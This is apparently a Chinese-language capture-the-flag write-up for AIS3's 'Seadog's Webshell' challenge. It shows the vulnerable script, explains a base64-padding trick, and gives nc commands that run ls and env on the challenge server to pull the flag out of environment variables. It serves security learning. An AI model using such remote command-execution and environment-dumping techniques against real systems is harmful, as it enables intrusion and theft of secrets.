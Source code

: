 # Seadog's Webshell
## 題目

## Important Source Code
``` bash
#!/bin/sh

exec 2>/dev/null
base64 | timeout 10s sh

```

## 解題
送進去的 code 必須同時符合 base64 的格式將其解碼送進去，因此 script 就用 `echo "//bin/ls" | base64 -d` 然後再 pipe 進 nc，並且用絕對路徑，這樣就可以用 `/` 填空位。
然而卻發現怎麼試都沒反應，因此用自己機器試了一下，發現 nc 沒送 eof，所以加了個 `-q 1`。
`echo "//bin/ls" | base64 -d | nc -q 1 chals1.ais3.org 12369`

成功

最後因為 flag 在 environment (根據 docker-ccompose.yml) 所以執行
`echo "/usr/bin/env" | base64 -d | nc -q 1 chals1.ais3.org 12369`


## Flag
`AIS3{ZXNjYXBpbmdfYmFzZTY0X3dpdGhfZW9m}`